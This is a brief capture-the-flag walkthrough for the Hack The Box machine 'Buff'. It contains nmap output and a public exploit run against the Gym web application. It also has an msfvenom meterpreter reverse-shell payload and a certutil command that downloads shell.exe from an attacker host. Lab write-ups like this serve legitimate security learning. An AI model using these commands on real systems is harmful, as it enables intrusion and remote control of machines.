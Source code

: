 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Buff
# 30/3/2023
10.10.10.198

----------------------------------------------------
# nmap
----------------------------------------------------
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)

----------------------------------------------------
# foothold
----------------------------------------------------
Visiting /contact reveals information about the version of the web application.
http://10.10.10.198:8080/contact.php

└─$ searchsploit Gym         
└─$ python2 48506.py http://10.10.10.198:8080/
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f exe -o shell.exe
"certutil -urlcache -split -f "http://10.10.16.3/shell.exe" shell.exe"
